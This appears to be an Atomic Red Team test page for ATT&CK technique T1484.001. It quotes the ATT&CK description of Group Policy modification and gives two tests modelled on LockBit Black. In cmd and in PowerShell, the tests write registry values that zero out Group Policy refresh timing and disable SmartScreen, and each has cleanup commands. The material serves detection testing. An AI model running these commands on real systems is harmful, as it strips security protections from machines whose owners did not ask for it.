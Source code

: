 # T1484.001 - Domain Policy Modification: Group Policy Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/001)
<blockquote>

Adversaries may modify Group Policy Objects (GPOs) to subvert the intended discretionary access controls for a domain, usually with the intention of escalating privileges on the domain. Group policy allows for centralized management of user and computer settings in Active Directory (AD). GPOs are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016) 

Like other objects in AD, GPOs have access controls associated with them. By default all user accounts in the domain have permission to read GPOs. It is possible to delegate GPO access control permissions, e.g. write access, to specific users or groups in the domain.

Malicious GPO modifications can be used to implement many other malicious behaviors such as [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053), [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001), [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105), [Create Account](https://attack.mitre.org/techniques/T1136), [Service Execution](https://attack.mitre.org/techniques/T1569/002),  and more.(Citation: ADSecurity GPO Persistence 2016)(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions)(Citation: Mandiant M Trends 2016)(Citation: Microsoft Hacking Team Breach) Since GPOs can control so many user and machine settings in the AD environment, there are a great number of potential attacks that can stem from this GPO abuse.(Citation: Wald0 Guide to GPOs)

For example, publicly available scripts such as <code>New-GPOImmediateTask</code> can be leveraged to automate the creation of a malicious [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053) by modifying GPO settings, in this case modifying <code>&lt;GPO_PATH&gt;\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml</code>.(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions) In some cases an adversary might modify specific user rights like SeEnableDelegationPrivilege, set in <code>&lt;GPO_PATH&gt;\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf</code>, to achieve a subtle AD backdoor with complete control of the domain because the user account under the adversary's control would then be able to modify GPOs.(Citation: Harmj0y SeEnableDelegationPrivilege Right)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd](#atomic-test-1---lockbit-black---modify-group-policy-settings--cmd)

- [Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell](#atomic-test-2---lockbit-black---modify-group-policy-settings--powershell)


<br/>

## Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd
An adversary can modify the group policy settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 9ab80952-74ee-43da-a98c-1e740a985f28






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /t REG_SZ /d Block /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell
An adversary modifies group policy settings

**Supported Platforms:** Windows


**auto_generated_guid:** b51eae65-5441-4789-b8e8-64783c26c1d1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -Force -ErrorAction Ignore 
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force -ErrorAction Ignore
```





<br/>

